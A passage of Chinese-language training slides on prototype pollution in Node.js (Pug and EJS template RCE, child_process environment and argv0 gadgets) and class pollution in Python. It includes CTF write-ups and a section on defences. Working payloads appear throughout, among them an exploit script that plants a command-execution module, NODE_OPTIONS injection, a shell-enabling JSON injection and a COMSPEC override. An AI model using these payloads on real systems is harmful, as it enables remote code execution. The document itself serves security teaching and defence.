  console.log(html); // <h1>It works</h1>
  ```

- 函数 `pug.compile` 将字符串转换为模板函数，传递模板中引用的对象来生成 HTML。

</v-clicks>

::right::

<v-clicks>

- 以下是一种检测 Pug 模板引擎是否存在原型链污染的方法：

  ```js {*}{lines:true}
  const pug = require("pug");

  Object.prototype.block = {
    type: "Text",
    val: `<script>alert(origin)</script>`,
  };

  const source = `h1= msg`;

  var fn = pug.compile(source, {});
  var html = fn({ msg: "It works" });

  // <h1>It works<script>alert(origin)</script></h1>
  console.log(html);
  ```

- 当你在 `Object.prototype.block` 中插入 AST 时，编译器会通过 `val` 将其添加到缓冲区中。

</v-clicks>

---

#### Pug PoC 解析

```js {all|14-18}{lines:true, maxHeight:'40%'}
// https://github.com/pugjs/pug/blob/32acfe8f197dc44c54e8af32c7d7b19aa9d350fb/packages/pug-walk/index.js#L37
switch (ast.type) {
  case "NamedBlock":
  case "Block":
    ast.nodes = walkAndMergeNodes(ast.nodes);
    break;
  case "Case":
  case "Filter":
  case "Mixin":
  case "Tag":
  case "InterpolatedTag":
  case "When":
  case "Code":
  case "While":
    if (ast.block) {
      ast.block = walkAST(ast.block, before, after, options);
    }
    break;
  case "Each":
    if (ast.block) {
      ast.block = walkAST(ast.block, before, after, options);
    }
    if (ast.alternate) {
      ast.alternate = walkAST(ast.alternate, before, after, options);
    }
    break;
  case "EachOf":
    if (ast.block) {
      ast.block = walkAST(ast.block, before, after, options);
    }
    break;
  case "Conditional":
    if (ast.consequent) {
      ast.consequent = walkAST(ast.consequent, before, after, options);
    }
    if (ast.alternate) {
      ast.alternate = walkAST(ast.alternate, before, after, options);
    }
    break;
  case "Include":
    walkAST(ast.block, before, after, options);
    walkAST(ast.file, before, after, options);
    break;
  case "Extends":
    walkAST(ast.file, before, after, options);
    break;
  case "RawInclude":
    ast.filters = walkAndMergeNodes(ast.filters);
    walkAST(ast.file, before, after, options);
    break;
  case "Attrs":
  case "BlockComment":
  case "Comment":
  case "Doctype":
  case "IncludeFilter":
  case "MixinBlock":
  case "YieldBlock":
  case "Text":
    break;
  case "FileReference":
    if (options.includeDependencies && ast.ast) {
      walkAST(ast.ast, before, after, options);
    }
    break;
  default:
    throw new Error("Unexpected node type " + ast.type);
    break;
}
```

<v-clicks at="1">

- 当 `ast.type` 为 `While` 时，会调用 `walkAST` 函数，并传入 `ast.block` （如果 `ast.block` 不存在，则会引用原型链上的值）。

- 如果模板中引用了任何来自参数的值，那么 `While` 节点总是存在的，所以这个 PoC 的可信度很高。
  - 事实上，如果开发者在模板中不引用任何来自参数的值，他们就不会使用任何模板引擎。（那为什么不直接 Serve 静态文件呢？）

</v-clicks>

---

#### Pug RCE 原理 1



Pug 的工作流程如上图所示。

<v-clicks>

- 不同于 Handlebars，每个过程都被分离成一个单独的模块（monorepo）。
- Pug 解析器生成的 AST 被传递给 `pug-code-gen` 模块，并生成一个函数。
- 最后，它将被执行。

</v-clicks>

---

#### Pug RCE 原理 2

```js {*}{lines:true}
// https://github.com/pugjs/pug/blob/32acfe8f197dc44c54e8af32c7d7b19aa9d350fb/packages/pug-code-gen/index.js#L335-L342
if (debug && node.debug !== false && node.type !== "Block") {
  if (node.line) {
    var js = ";pug_debug_line = " + node.line;
    if (node.filename)
      js += ";pug_debug_filename = " + stringify(node.filename);
    this.buf.push(js + ";");
  }
}
```

在 Pug 的模板编译器中，有一个名为 `pug_debug_line` 的变量，用于存储行号信息。

<v-clicks>

- 如果 `node.line` 存在，则将其添加到缓冲区中，否则将其传递。
- 对于由 `pug-parser` 生成的 AST，`node.line` 的值总是指定为整数。
- 但是，我们可以通过 AST 注入将字符串插入 `node.line` 中，从而导致任意代码执行。

</v-clicks>

---

#### Pug RCE Exploit

```js {*}{lines:true}
const pug = require("pug");

Object.prototype.block = {
  type: "Text",
  line: "console.log(process.mainModule.require('child_process').execSync('id').toString())",
};

const source = `h1= msg`;

var fn = pug.compile(source, {});
console.log(fn.toString());
```

```js {hide|9-19}{lines:true, maxHeight:'50%'}
function template(locals) {
  var pug_html = "",
    pug_mixins = {},
    pug_interp;
  var pug_debug_filename, pug_debug_line;
  try {
    var locals_for_with = locals || {};

    (function (console, msg, process) {
      pug_debug_line = 1;
      pug_html = pug_html + "\u003Ch1\u003E";
      pug_debug_line = 1;
      pug_html =
        pug_html + pug.escape(null == (pug_interp = msg) ? "" : pug_interp);
      pug_debug_line = console.log(
        process.mainModule.require("child_process").execSync("id").toString(),
      );
      pug_html = pug_html + "ndefine\u003C\u002Fh1\u003E";
    }).call(
      this,
      "console" in locals_for_with
        ? locals_for_with.console
        : typeof console !== "undefined"
          ? console
          : undefined,
      "msg" in locals_for_with
        ? locals_for_with.msg
        : typeof msg !== "undefined"
          ? msg
          : undefined,
      "process" in locals_for_with
        ? locals_for_with.process
        : typeof process !== "undefined"
          ? process
          : undefined,
    );
  } catch (err) {
    pug.rethrow(err, pug_debug_filename, pug_debug_line);
  }
  return pug_html;
}
```

---

#### Ejs RCE

```js {*}{lines:true}
// https://github.com/mde/ejs/blob/cd6817e429c4b1ab40059955968f7ba4b8be64eb/lib/ejs.js#L636-L641
if (opts.client) {
  src = "escapeFn = escapeFn || " + escapeFn.toString() + ";" + "\n" + src;
  if (opts.compileDebug) {
    src = "rethrow = rethrow || " + rethrow.toString() + ";" + "\n" + src;
  }
}
```

```js {*}{lines:true}
const ejs = require("ejs");

Object.prototype.client = "true";
Object.prototype.escapeFunction = 'function() {console.log("PWNED")}';

const template = "<h2><%= name %></h2>";
ejs.render(template, { name: "John" }, {});
```

<v-clicks>

- 上述 Payload 只对 EJS <= 3.1.9 有效。

- 他们在 2019 年的时候觉得这不算洞，不修（[#451](https://github.com/mde/ejs/issues/451)）

- 然而 2024 年还是做了缓解措施，而且发了 [CVE-2024-33883](https://nvd.nist.gov/vuln/detail/cve-2024-33883)

- 如果能绕过这个缓解措施，我觉得也能拿 CVE 编号，欢迎挑战 \:P

</v-clicks>

---

### 题目：Fastest Delivery Service （BlackHat MEA CTF Qualification 2024）

使用提供的容器镜像，启动服务：

```bash
docker load -i fastest_delivery_service.tar
docker run --rm -p 3000:3000 fastest_delivery_service
```

服务运行后，访问 `http://localhost:3000/` 即可看到相关页面。
请尝试利用该服务的漏洞，得到 flag。

---

#### 解题思路 1

- 初步分析：这道题给了一个应用的源代码。应用基于 Node.js，有登录、注册和地址表单功能。最有趣的部分是当我在地址表单的两个字段都提交用户名时，触发了类型错误页面。这个错误显示地址功能在修改用户对象。

- 看 Dockerfile，发现命令随机化了 flag 文件名，所以大概率需要通过 RCE 来获取 flag。

  ```shell
  echo "$FLAG" > '/tmp/flag_'$(cat /dev/urandom | tr -cd 'a-f0-9' | head -c 32).txt
  ```

- Fuzz 一下发现触发类型错误的 `/address` 端点，代码长这样：

  ```js
  app.post("/address", (req, res) => {
    const { user } = req.session;
    const { addressId, Fulladdress } = req.body;
    if (user && users[user.username]) {
      addresses[user.username][addressId] = Fulladdress;
      users[user.username].address = addressId;
      res.redirect("/login");
    } else {
      res.redirect("/register");
    }
  });
  ```

---

#### 解题思路 2

- 注意到这行代码用用户输入的参数修改对象：

  ```js
  addresses[user.username][addressId] = Fulladdress;
  ```

- 容易想到可能存在原型污染漏洞。我们可以控制这些参数：

  - `/register` 端点：`username`
  - `/address` 端点：`addressId` 和 `FullAddress`

  所以就可以写成：

  ```js
  addresses["__proto__"]["<用户输入>"] = "<用户输入>";
  ```

- 检查 `package.json` 发现用了有漏洞的 Ejs 包版本（CVE-2024-33883）：

  ```json
  {
    "dependencies": {
      "ejs": "3.1.9"
    }
  }
  ```

---

#### 解题思路 3

- 整体攻击流程如下：

```python {all|8-9|11-14|16-21}{lines:true, maxHeight:'40%'}
import re
import requests

target_url = "<url>"

s = requests.Session()

# 注册原型污染专用账号
r = s.post(target_url + "/register", data={"username": "__proto__", "password": "asdf"})

# 污染原型链写入恶意函数
r = s.post(target_url + "/address", data={"addressId": "client", "Fulladdress": "1"})
payload = """process.mainModule.require("fs").writeFileSync("/tmp/rootxran.js", "function RCE( key ){ \\n const result = process.mainModule.require('child_process').execSync(`${key}`); \\n throw new Error(`Result leak from Error: ${result.toString()}`); \\n}\\n module.exports = RCE;");"""
r = s.post(target_url + "/address", data={"addressId": "escapeFunction", "Fulladdress": payload})

# 执行命令读取flag
payload = """process.mainModule.require("/tmp/rootxran.js")("cat /tmp/flag_*");"""
r = s.post(target_url + "/address", data={"addressId": "escapeFunction", "Fulladdress": payload})
pattern = r'Result leak from Error: (.*?)<br><br>'
match = re.search(pattern, r.text, re.DOTALL)
print(match.group(1).strip())
```

<v-clicks at="1">

- 注册一个 `__proto__` 用户来污染原型链
- 在服务端写入恶意模块文件
- 通过错误信息泄露命令执行结果
- 最后用 `cat` 命令直接读取随机命名的 flag 文件

</v-clicks>

---

### Node.js 原型链污染到 RCE

如无特别说明，下述 Payload 均只在 Node.js <= 18 下有效。

- 假设存在以下真实 JavaScript 代码：

```javascript
const { execSync, fork } = require("child_process");

function clone(target) {
  return merge({}, target);
}

// 使用用户输入触发原型污染
// 后续章节将说明如何构造攻击载荷
clone(USERINPUT);

// 创建子进程时会调用污染环境变量的利用点
// 在当前目录创建 a_file.js 文件：`echo a=2 > a_file.js`
var proc = fork("a_file.js");
```

---

#### 通过环境变量实现原型链污染到 RCE

根据这篇[分析文章](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)，当使用 **`child_process`** 模块的某些方法（如 `fork` 或 `spawn`）创建子进程时，会调用 `normalizeSpawnArguments` 方法。这个方法存在一个**原型污染利用点**，可以通过污染环境变量来注入恶意代码：

```javascript
// 代码来自 Node.js 源码
var env = options.env || process.env;
var envPairs = [];
// ...
let envKeys = [];
// 这里会包含原型链上的属性
for (const key in env) {
  ArrayPrototypePush(envKeys, key);
}
// ...
for (const key of envKeys) {
  const value = env[key];
  if (value !== undefined) {
    ArrayPrototypePush(envPairs, `${key}=${value}`); // <-- 污染点
  }
}
```

通过污染 `envPairs`，可以**在环境变量中插入恶意值**。关键是要污染 `.env` 属性，使得新环境变量成为第一个被加载的。

---

#### 污染 `__proto__`

由于 Node.js 的 `child_process` 模块中 `normalizeSpawnArguments` 函数的特性，只要污染了任意属性，就能**设置新的环境变量**。
例如，污染 `__proto__.avar="valuevar"` 会使得进程运行时带有 `avar=valuevar` 环境变量。

为了让环境变量成为第一个加载的，需要污染 `.env` 属性（某些方法中该变量会成为首个）。

```javascript
const { execSync, fork } = require("child_process");

Object.prototype.env = {
  EVIL: "console.log(require('child_process').execSync('touch /tmp/pp2rce').toString())//",
};
Object.prototype.NODE_OPTIONS = "--require /proc/self/environ";

// 触发利用点
const proc = fork("./a_file.js"); // 此时会创建 /tmp/pp2rce 文件

// 利用漏洞代码
USERINPUT = JSON.parse(
  '{"__proto__": {"NODE_OPTIONS": "--require /proc/self/environ", "env": { "EVIL":"console.log(require(\\"child_process\\").execSync(\\"touch /tmp/pp2rce\\").toString())//"}}}',
);

clone(USERINPUT);
const proc = fork("a_file.js"); // 成功执行恶意代码
```

---

#### 污染 `constructor.prototype`

```javascript
const { execSync, fork } = require("child_process");

// 手动污染示例
b = {};
b.constructor.prototype.env = {
  EVIL: "console.log(require('child_process').execSync('touch /tmp/pp2rce2').toString())//",
};
b.constructor.prototype.NODE_OPTIONS = "--require /proc/self/environ";

proc = fork("a_file.js"); // 创建 /tmp/pp2rce2

// 利用漏洞代码
USERINPUT = JSON.parse(
  '{"constructor": {"prototype": {"NODE_OPTIONS": "--require /proc/self/environ", "env": { "EVIL":"console.log(require(\\"child_process\\").execSync(\\"touch /tmp/pp2rce2\\").toString())//"}}}}',
);

clone(USERINPUT);

var proc = fork("a_file.js"); // 执行成功
```

---

#### 通过命令行参数实现原型链污染到 RCE

另一种攻击方式是利用 `/proc/self/cmdline` 文件存储恶意代码，并通过污染 `argv0` 实现：

```javascript
const { execSync, fork } = require("child_process");

// 手动污染示例
b = {};
b.__proto__.argv0 =
  "console.log(require('child_process').execSync('touch /tmp/pp2rce2').toString())//";
b.__proto__.NODE_OPTIONS = "--require /proc/self/cmdline";

var proc = fork("./a_file.js"); // 创建 /tmp/pp2rce2

// 利用漏洞代码
USERINPUT = JSON.parse(
  '{"__proto__": {"NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\\"child_process\\").execSync(\\"touch /tmp/pp2rce2\\").toString())//"}}',
);

clone(USERINPUT);

var proc = fork("a_file.js"); // 执行成功
```

---

#### DNS 探测攻击

通过污染 `NODE_OPTIONS` 触发 DNS 请求，可用于漏洞验证：

```json
{
  "__proto__": {
    "argv0": "node",
    "shell": "node",
    "NODE_OPTIONS": "--inspect=xxx.dnslog.cn"
  }
}
```

---
layout: two-cols-header
---

#### 各子进程方法的利用方式

不同 `child_process` 方法对原型污染的利用方式有所差异：

::left::

- `exec` 方法：

```javascript
// 通过 cmdline 技巧
const { exec } = require("child_process");
p = {};
p.__proto__.shell = "/proc/self/exe"; // 确保执行 node
p.__proto__.argv0 = "恶意代码";
p.__proto__.NODE_OPTIONS = "--require /proc/self/cmdline";
var proc = exec("任意命令");
```

::right::

- `fork` 方法：

```javascript
// 通过 env 技巧
const { fork } = require("child_process");
b = {};
b.__proto__.env = { EVIL: "恶意代码" };
b.__proto__.NODE_OPTIONS = "--require /proc/self/environ";
var proc = fork("任意文件");
```

---

#### 强制触发子进程执行

如果代码本身没有调用 `spawn`，但存在可控的 `require` 路径，可以诱导其加载恶意模块：

```javascript
// 污染模块路径
Object.prototype.main = "/tmp/malicious.js";
require("某个模块"); // 实际加载恶意脚本
```

---

### 题目：pingline

使用提供的容器镜像，启动服务：

```bash
docker load -i pingline.tar
docker run --rm -p 3000:3000 pingline
```

服务运行后，访问 `http://localhost:3000/` 即可看到相关页面。

请尝试利用该服务的漏洞，得到 flag。

---

#### 解题思路 1

看代码很容易能看到一个很奇怪的函数：

```ts {all|1-4|26-28|19-25}{lines:true, maxHeight:'50%'}
function jsonParse(
  str: string,
  ret?: Record<string, any>,
): Record<string, any> {
  ret ??= {};

  if (!(str.startsWith("{") && str.endsWith("}"))) {
    return ret;
  }

  const matches = str
    .slice(1, str.length - 1)
    .matchAll(
      /(?:^|,)\s*"(?<key>\w+)"\s*:\s*(?<value>\d+|(?:true|false)|"(?:\\.|[^"])*"|\{.+?})/g,
    );
  for (const match of matches) {
    const { key, value } = match.groups!;
    if (value.startsWith('"')) {
      ret[key] = value
        .slice(1, value.length - 1)
        .replace(/\\(u([0-9a-fA-F]{4})|.)/g, (_, m: string, code: string) =>
          m === "u"
            ? String.fromCharCode(parseInt(code, 16))
            : ({ b: "\b", f: "\f", n: "\n", r: "\r", t: "\t" }[m] ?? m),
        );
    } else if (value.startsWith("{")) {
      if (!(key in ret)) ret[key] = {};
      jsonParse(value, ret[key]);
    } else {
      ret[key] = { true: true, false: false }[value] ?? +value;
    }
  }

  return ret;
}
```

<v-clicks at="1">

- 这个函数会解析传入的 JSON 字符串，并将其转换为 JavaScript 对象（居然是用正则）。
- 可以看到有递归赋值的逻辑，如果遇到 `{` 就会递归调用自己。
- 如果传入的 JSON 字符串中包含 `__proto__` 字段，就会污染原型链。

</v-clicks>

---
layout: two-cols-header
---

#### 解题思路 2

::left::

- 打开浏览器抓包分析正常的请求：



::right::

- 可以观察到代码中调用了 `child_process.spawn` 函数，传入了 `ping` 命令：

  ```ts
  export async function pingAction(data: string, count: number = 4) {
    const body: { ip?: string } = jsonParse(data);

    const proc = spawn("ping", [`-c${count}`, body.ip!, "-W1"], {
      stdio: ["inherit", "pipe", "pipe"],
      env: { ...process.env, LC_ALL: "C.UTF-8" },
    });

    let output = "";
    proc.stdout.on("data", (data) => (output += data));
    proc.stderr.on("data", (data) => (output += data));

    await new Promise((resolve) => proc.on("close", resolve));

    return output;
  }
  ```

---

#### 解题思路 3

根据之前说的 Node.js 原型链污染到 RCE 的原理，可以污染 `__proto__` 来实现 RCE。

```json
{ "ip": "`id`", "__proto__": { "shell": true } }
```

此时因为开启了 `shell` 选项，而 shell 会执行由反引号包裹的命令，所以会执行 `id` 命令。



---

## 原型链污染漏洞的防御

防御主要包含以下几个层级：

- 重点库（动态代码生成、命令执行等）的输入检查/过滤
- 使用安全的函数/库来替代存在问题的函数/库
- 在全局禁用对 `Object.prototype` 的修改

---

### 输入检查 & 过滤：Node.js `child_process` 模块

我们上文提到的 Node.js RCE 利用方案，在 Node.js > 18 下已经失效。那么 Node.js 是怎么做到这一点的呢？

<v-clicks>

- lib: add `internalUtil.kEmptyObject` ([nodejs/node#43159](https://github.com/nodejs/node/pull/43159))

  - 引入 `kEmptyObject` 来作为当 `func(arg, opt?)` 中 `opt` 为空时，默认的 `opt` 值

    ```js
    export const kEmptyObject = Object.freeze(Object.create(null));
    const { foo, bar } = options ?? kEmptyObject;
    ```

- child_process: harden against prototype pollution ([nodejs/node#48726](https://github.com/nodejs/node/pull/48726))

  - 将传入的 `options` 参数的 `__proto__` 属性强制覆盖为 `null`

    ```diff
    - options = { ...options };
    + options = { __proto__: null, ...options };
    ```

- child_process: fix incomplete prototype pollution hardening ([nodejs/node#53781](https://github.com/nodejs/node/pull/53781))
  - 修了上面漏掉的一个函数没处理 `__proto__` 的情况

</v-clicks>

---

### 输入检查 & 过滤：Playground

```js {monaco-run}
/**
 * @param {string} cmd
 * @param {Object} options
 */
function execSync(cmd, options) {
  options ??= {};
  console.log(cmd, "options.shell", options.shell);
  console.log(cmd, "options.env", options.env);
}

Object.prototype.shell = true;
Object.prototype.env = {
  EVIL: "console.log(require('child_process').execSync('touch /tmp/pp2rce').toString())//",
};

execSync("ls");
execSync("ping", { outputs: ["inherit", "pipe", "pipe"] });
```

---

### 输入检查 & 过滤：Ejs

[mde/ejs@e469741](https://github.com/mde/ejs/commit/e469741dca7df2eb400199e1cdb74621e3f89aa5): Basic pollution protection

```diff {all|7-10|27-35}{lines:true, maxHeight:'50%'}
--- a/lib/ejs.js
+++ b/lib/ejs.js
@@ -506,8 +506,8 @@ exports.clearCache = function () {
   exports.cache.reset();
 };

-function Template(text, opts) {
-  opts = opts || utils.createNullProtoObjWherePossible();
+function Template(text, optsParam) {
+  var opts = utils.hasOwnOnlyObject(optsParam);
   var options = utils.createNullProtoObjWherePossible();
   this.templateText = text;
   /** @type {string | null} */
@@ -949,3 +949,4 @@ exports.name = _NAME;
 if (typeof window != 'undefined') {
   window.ejs = exports;
 }
+
diff --git a/lib/utils.js b/lib/utils.js
index a0434d58..396edb36 100644
--- a/lib/utils.js
+++ b/lib/utils.js
@@ -238,4 +238,13 @@ exports.createNullProtoObjWherePossible = (function () {
   };
 })();

+exports.hasOwnOnlyObject = function (obj) {
+  var o = exports.createNullProtoObjWherePossible();
+  for (var p in obj) {
+    if (hasOwn(obj, p)) {
+      o[p] = obj[p];
+    }
+  }
+  return o;
+};
```

<v-clicks at="1">

- 在 `utils.createNullProtoObjWherePossible` 中，会创建一个没有原型链的对象。
  - 基本和 Node.js 的 `Object.create(null)` 等价，但是因为 Ejs 需要考虑 ES5 兼容所以写的代码多些
- 在 `utils.hasOwnOnlyObject` 中，会遍历传入的对象，并将其属性复制到一个新的对象中，并返回。
  - `hasOwn` 是它在本地重定义的，基本等价于 `Object.prototype.hasOwnProperty`
  - 这样 `__proto__` 这些不属于对象自身的属性就不会被复制到新的对象中

</v-clicks>

---

### 输入检查 & 过滤：Playground 2

```js {monaco-run}
/**
 * @param {string} str
 * @param {Object} data
 */
function render(str, data) {
  data ??= {};
  console.log(str, data.escapeFunction);
}

Object.prototype.escapeFunction = 'console.log("PWNED")';

render("<%= data.escapeFunction() %>");
render("<%= data.escapeFunction() %>", {});
```

---

### 使用安全的函数：进行安全的合并

我们来修改我们最开始提供的例子：

```js {monaco-run}
// 危险的对象合并实现
function merge(target, source) {
  for (const key in source) {
    if (typeof source[key] === "object" && source[key] !== null) {
      if (!target[key]) {
        target[key] = {};
      }
      merge(target[key], source[key]); // 递归陷阱
    } else {
      target[key] = source[key]; // 污染触发点
    }
  }
}

// 攻击者输入
const maliciousPayload = JSON.parse('{"__proto__":{"isAdmin":true}}');
merge({}, maliciousPayload); // 发起污染攻击

console.log({}.isAdmin); // 输出 true
```

---

### 使用安全的函数：安全的动态赋值

```js {monaco-run}
function setValue(obj, key, value) {
  const segments = key.split(".");
  const lastSegment = segments.pop();
  for (const segment of segments) {
    const accessor = Array.isArray(obj) ? +segment : segment;
    // 这样安全吗？
    // if (segment === "__proto__") continue;
    if (!(accessor in obj)) obj[accessor] = {};
    obj = obj[accessor];
  }
  obj[lastSegment] = value;
}

// 攻击向量
setValue({}, "__proto__.polluted", "HACKED");

// 灾难性后果
console.log({}.polluted); // 输出 "HACKED"
```

---

### 全局禁用对 `Object.prototype` 的修改

| 方法                                         | 可添加属性 | 可删除属性 | 可修改属性值 | 可配置属性描述符 | 可修改原型 | 对象是否可扩展 |
| -------------------------------------------- | ---------- | ---------- | ------------ | ---------------- | ---------- | -------------- |
| `Object.freeze(Object.prototype)`            | ❌         | ❌         | ❌           | ❌               | ❌         | ❌             |
| `Object.preventExtensions(Object.prototype)` | ❌         | ✅         | ✅           | ✅               | ✅         | ❌             |
| `Object.seal(Object.prototype)`              | ❌         | ❌         | ✅           | ❌               | ❌         | ❌             |

- 会导致一些 Polyfill 失效，在浏览器中使用时需要注意，可能会导致对旧版本浏览器的兼容性问题

  - 比如 `Object.prototype.entries = function() { ... }` 等

- 不会阻止修改除 `Object.prototype` 以外对象的原型链
  - 比如 `Object.assign({}, JSON.parse('{"__proto__":{"polluted":"HACKED"}}')).polluted === "HACKED"`

---

### 全局禁用对 `__proto__` 的修改/访问：Node.js

- 使用 `--disable-proto` 命令行参数来禁止对任何对象的 `[[Prototype]]` 属性的修改/访问
  - `--disable-proto=delete` 删除所有对象的 `__proto__` 属性
  - `--disable-proto=throw` 访问 `__proto__` 属性时抛出异常 `ERR_PROTO_ACCESS`
  - 会阻止所有通过 `__proto__` 属性进行的原型链污染
  - 但是对通过 `constructor.prototype` 进行的原型链污染无能为力
  - 部分应用可能依赖 `__proto__` 属性，所以需要谨慎使用

实际上，`__proto__` 是一个已经被弃用的特性，尽管大部分 JavaScript 运行时都仍然支持它，但是它已经被标记为弃用，并且不推荐使用。对于任何新写的代码，都不推荐使用 `__proto__` 属性，无论是访问还是赋值。

---
layout: image-right
image: ./images/python-pp-meme.png
---

## Python 中的「原型链」污染

Dunder 方法（也称为魔术方法）是所有 Python 对象在各种操作（例如 `__str__()`、`__eq__()` 和 `__call__()`）期间隐式调用的特殊方法。它们用于指定类的对象在各种语句和各种运算符中使用时应该做什么。Dunder 方法对于内置类有自己的默认实现，我们创建新类时将隐式继承这些方法，但是，开发人员可以在定义新类时覆盖这些方法并提供自己的实现。

Python 中的每个对象中还有其他特殊属性，例如 `__class__`、`__doc__` 等，每个属性都有特定的用途。

在 Python 中，我们没有原型，但我们有**特殊属性**。

---

### Python 类污染：类属性都是可变的

```python {*}{lines:true}
class Employee: pass # 创建一个空类

emp = Employee()
another_emp = Employee()

Employee.name = 'No one' # 为 Employee 类定义一个属性
print(emp.name)

emp.name = 'Employee 1' # 为对象定义一个属性（覆盖类属性）
print(emp.name)

emp.say_hi = lambda: 'Hi there!' # 为对象定义一个方法
print(emp.say_hi())

Employee.say_bye = lambda s: 'Bye!' # 为 Employee 类定义一个方法
print(emp.say_bye())

Employee.say_bye = lambda s: 'Bye bye!' # 覆盖 Employee 类的方法
print(another_emp.say_bye())

#> No one
#> Employee 1
#> Hi there!
#> Bye!
#> Bye bye!
```

<!--
在上面显示的代码中，我们创建了 Employee 类的一个实例，它是一个空类，然后为该对象定义了一个新属性和方法。可以在特定对象上定义属性和方法，以便该实例可以访问（非静态），或者在类上定义，以便该类的所有对象都可以访问它（静态）。

Python 中的这个特性让我想知道为什么我们不能应用原型污染的相同概念，但这次是在 Python 中，通过利用所有对象都具有的特殊属性。从攻击者的角度来看，我们更感兴趣的是可以覆盖/重写的属性，以便能够利用这个漏洞，而不是魔术方法。因为我们的输入将始终被视为数据（str、int 等），而不是要评估的实际代码。因此，如果我们尝试覆盖任何魔术方法，当尝试调用该方法时，它会导致应用程序崩溃，因为字符串等数据无法执行。例如，在将其值设置为字符串后尝试调用 __str__() 方法会引发如下错误 TypeError: 'str' object is not callable。

现在让我们尝试覆盖 Python 中任何对象的最重要的属性之一，即 __class__，该属性指向对象所属的类。
-->

---

### Python 类污染：尝试赋值

```python {*}{lines:true}
class Employee: pass # 创建一个空类

emp = Employee()
emp.__class__ = 'Polluted'

#> Traceback (most recent call last):
#>   File "<stdin>", line 1, in <module>
#> TypeError: __class__ must be set to a class, not 'str' object
```

在我们的示例中，`emp.__class__` 指向 `Employee` 类，因为它是该类的实例。我们可以将 Python 中的 `<instance>.__class__` 视为 JavaScript 中的 `<instance>.constructor`。

尝试将 `emp` 对象的 `__class__` 属性设置为字符串时出错，它表明 `__class__` 必须设置为另一个类而不是字符串。这意味着它正在尝试用我们提供的内容覆盖该特殊属性，唯一的问题是我们尝试设置 `__class__` 的值的数据类型。

---

### Python 类污染：赋值特殊属性

```python {*}{lines:true}
class Employee: pass # 创建一个空类

emp = Employee()
emp.__class__.__qualname__ = 'Polluted'

print(emp)
print(Employee)

#> <__main__.Polluted object at 0x0000024765C48250>
#> <class '__main__.Polluted'>
```

我们能够污染类并将 `__qualname__` 属性设置为任意字符串。请记住，当我们在类的对象上设置 `__class__.__qualname__` 时，该类（在我们的例子中是 `Employee`）的 `__qualname__` 属性已更改，这是因为 `__class__` 是对该对象类的引用，对它的任何修改实际上都将应用于该类的所有实例。

---

### Python 类污染：递归合并

为了了解该漏洞在真实的 Python 应用程序中是如何存在的，我移植了递归合并 (merge) 函数，该函数被滥用于污染我们已知的正常原型污染中的对象原型。

```python {all|3-14|16-22|24-34}{lines:true, maxHeight:'80%'}
class Employee: pass # 创建一个空类

def merge(src, dst):
    # 递归合并函数
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

emp_info = {
    "name":"Ahemd",
    "age": 23,
    "manager":{
        "name":"Sarah"
        }
    }

emp = Employee()
print(vars(emp))

merge(emp_info, emp)

print(vars(emp))
print(f'Name: {emp.name}, age: {emp.age}, manager name: {emp.manager.get("name")}')

#> {}
#> {'name': 'Ahemd', 'age': 23, 'manager': {'name': 'Sarah'}}
#> Name: Ahemd, age: 23, manager name: Sarah
```

---

### Python 类污染：递归合并特殊属性

现在让我们尝试覆盖一些特殊属性！我们将更新 emp_info 以尝试像我们之前所做的那样通过 `emp.__class__.__qualname__` 设置 Employee 类的 `__qualname__` 属性，但这次使用合并函数。

```python {all|5-16|19-24|26-41}{lines:true, maxHeight:'80%'}
class Employee:
    pass  # 创建一个空类


def merge(src, dst):
    # 递归合并函数
    for k, v in src.items():
        if hasattr(dst, "__getitem__"):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)


emp_info = {
    "name": "Ahemd",
    "age": 23,
    "manager": {"name": "Sarah"},
    "__class__": {"__qualname__": "Polluted"},
}

emp = Employee()
merge(emp_info, emp)

print(vars(emp))
print(emp)
print(emp.__class__.__qualname__)

print(Employee)
print(Employee.__qualname__)

# > {'name': 'Ahemd', 'age': 23, 'manager': {'name': 'Sarah'}}
# > <__main__.Polluted object at 0x000001F80B20F5D0>
# > Polluted

# > <class '__main__.Polluted'>
# > Polluted
```

---

### Python 类污染：全局变量污染

```python {3-10|12-24|26-30}{lines:true, maxHeight:'80%'}
def merge(src, dst): ...

class User:
    def __init__(self):
        pass

class NotAccessibleClass:
    pass

not_accessible_variable = "Hello"

merge(
    {
        "__class__": {
            "__init__": {
                "__globals__": {
                    "not_accessible_variable": "Polluted variable",
                    "NotAccessibleClass": {"__qualname__": "PollutedClass"},
                }
            }
        }
    },
    User(),
)

print(not_accessible_variable)
print(NotAccessibleClass)

# > Polluted variable
# > <class '__main__.PollutedClass'>
```

由于我们可以找到从我们拥有的实例访问它的属性/项目链，因此我们能够利用特殊属性 `__globals__` 来访问和设置 NotAccessibleClass 类的属性，并修改全局变量 `not_accessible_variable`。

---

### 合并函数的真实示例

```python {*}{lines:true}
import pydash

class User:
    def __init__(self):
        pass

class NotAccessibleClass: pass
not_accessible_variable = 'Hello'

pydash.set_(User(), '__class__.__init__.__globals__.not_accessible_variable','Polluted variable')
print(not_accessible_variable)

pydash.set_(User(), '__class__.__init__.__globals__.NotAccessibleClass.__qualname__','PollutedClass')
print(NotAccessibleClass)

#> Polluted variable
#> <class '__main__.PollutedClass'>
```

---

### 类污染利用： `subprocess` 或 `os` 污染环境变量

```python {*}{lines:true}
payload = {
    "__class__": {
        "__init__": {
            "__globals__": {
                "subprocess": {
                    "os": {
                        "environ": {"COMSPEC": "cmd /c calc"}  # 修改环境变量
                    }
                }
            }
        }
    }
}
merge(payload, Employee())
subprocess.Popen("whoami", shell=True)  # 弹出计算器
```

这么做可以控制执行子命令用的环境变量，在上面给出的示例中，可以通过上文中 Windows 下 `cmd.exe` 的特性（因为 `shell=True`）而执行任意指令。

Linux 下有可能配合文件写原语，通过修改 `LD_PRELOAD` 等环境变量实现 RCE。

---

### 类污染利用：修改 `__kwdefaults__`

Python 的函数有一个特殊方法叫 `__kwdefaults__`，可以通过它得到该函数关键词参数的默认值：

```python
def func(*, a, b=2):
    print(a, b)

func.__kwdefaults__['a'] = 'Polluted'

func()

#> Polluted 2
```

---

### 类污染利用：修改 `__kwdefaults__` 2

